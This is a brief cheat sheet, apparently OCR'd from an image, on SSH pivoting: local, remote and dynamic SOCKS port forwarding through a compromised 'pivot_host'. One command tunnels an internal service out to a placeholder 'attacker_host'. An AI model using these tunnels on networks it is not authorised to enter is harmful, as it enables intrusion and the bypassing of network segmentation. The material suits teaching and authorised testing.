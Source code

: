 # SSH Pivoting

## Local Port Forward

ssh -L 8080:10.0.0.5:80 user@pivot_host
Access internal host: http://127.0.0.1:8080

Remote Port Forward

ssh -R 8080:127.0.0.1:80 user@attacker_host
Attacker can access pivot’s internal service.

Dynamic Port Forward (SOCKS)

ssh -D 1080 user@pivot_host
Set proxychains.conf to socks5 127.0.0.1 1080.
